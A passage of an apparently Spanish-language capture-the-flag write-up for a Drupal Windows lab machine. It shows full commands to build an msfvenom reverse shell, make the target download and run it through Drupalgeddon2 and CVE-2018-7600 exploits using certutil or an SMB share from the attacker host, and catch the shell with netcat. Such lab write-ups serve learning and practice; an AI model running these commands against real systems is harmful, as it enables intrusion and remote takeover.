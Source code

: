 ## REVERSE SHELL MSFVENOM

Generamos un `payload` de intrusión con `msfvenom` para obtener acceso a una sesión interactiva de la máquina víctima.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4564 -f exe -o reverseShell.exe
```

Vamos a realizar dos maneras de darle utilidad al payload generado anteriormente.

### CARGA DE REVERSE POR DRUPAGEDDON2 + CERTUTIL

Activamos un servidor `http` con `python` por el puerto `80`.

```bash
sudo python3 -m http.server 80
```

Hacemos uso del primer exploit para ejecutar el comando `certutil.exe` directamente en la máquina víctima, descargando la reverse shell y posteriormente se ejecuta en la ubicación asignada, no sin antes ponernos en escucha por el puerto donde generamos la reverse shell.

```bash
drupalgeddon2>> certutil.exe -f -urlcache -split http://10.10.14.13/reverseShell.exe C:\Windows\Temp\reverseShell.exe
```

```bash
rlwrap nc -lvnp 4564
```

```bash
drupalgeddon2>> C:\Windows\Temp\reverseShell.exe
```

```bash
#OUTPUT
whoami
nt authority\iusr
```

### CARGA DE REVERSE POR CVE-2018-7600 + IMPACKET-SMBSERVER

Vamos a cargar la reverse shell esta vez ejecutando comandos de manera remota por el segundo exploit y compartiendo un servicio `smb` desde nuestro equipo de atacantes, de igual forma, nos ponemos en escucha por el puerto indicado y ejecutamos directamente la reverse shell desde nuestra propia máquina.

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

```bash
rlwrap nc -lvnp 4564
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "\\\\10.10.14.13\smbFolder\rev.exe"
```
